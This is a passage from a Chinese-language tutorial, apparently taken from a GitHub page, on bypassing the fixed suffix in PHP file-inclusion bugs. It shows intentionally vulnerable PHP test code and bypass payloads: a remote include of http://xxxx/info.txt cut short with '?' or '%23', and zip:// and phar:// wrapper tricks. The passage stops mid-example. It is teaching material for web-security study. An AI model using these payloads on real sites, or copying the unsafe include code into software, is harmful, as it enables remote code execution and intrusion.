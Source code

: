 ## 指定后缀

```
测试代码：
<?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?>
```

### URL

URL： `protocol :// hostname[:port] / path / [;parameters][?query]#fragment`

在RFI中，可以利用query或fragment来绕过

#### 	姿势一：query(?)

```
/?file=http://xxxx/info.txt?
```

则包含的文件为 `http://xxxx/info.txt?/test/test.php`

问号后面的 `/test/test.php` 被当做query后缀而被绕过

#### 姿势二：fragment(#)

```
/?file=http://xxxx/info.txt%23
```

则包含的文件为 `http://xxxx/info.txt#/test/test.php`

#后面的 `/test/test.php` 被当做query后缀而被绕过，需要将#编码为%23

### 利用协议

```
测试代码：
<?php
    $file = $_GET['file'];
    include $file."phpinfo.txt";
?>
```

#### zip://

- [访问参数] `?file=zip://D:\zip.jpg%23phpinfo`
- [拼接后]  `?file=zip://D:\zip.jpg#phpinfo.txt`

#### phar://

- [访问参数] `?file=phar://xx.zip/phpinfo`
- [拼接后]  `?file=phar://xx.zip/phpinfo.txt`

**Example：**
目录中有a.zip压缩包，内含a.txt，其中包含代码<?php phpinfo();?>
构造payload为：
